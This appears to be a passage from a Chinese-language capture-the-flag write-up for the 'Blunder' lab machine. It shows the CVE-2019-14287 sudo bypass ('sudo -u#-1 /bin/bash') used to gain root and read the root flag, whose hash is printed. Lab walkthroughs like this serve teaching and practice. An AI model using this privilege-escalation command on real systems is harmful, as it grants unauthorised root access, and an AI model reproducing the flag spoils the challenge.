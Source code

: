  

### [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)

Google `(ALL, !root) /bin/bash` 之后可以用[这种方式](https://www.exploit-db.com/exploits/47502)提权：

```
hugo@blunder:/var/www/bludit-3.9.2$ sudo -u#-1 /bin/bash
 
root@blunder:/var/www/bludit-3.9.2# cat /root/root.txt
 
b1466707cf5be5f66b8be2c4a525e066
root@blunder:/var/www/bludit-3.9.2#
```

 

就可以得到root.txt了，另外home目录下还有个user.txt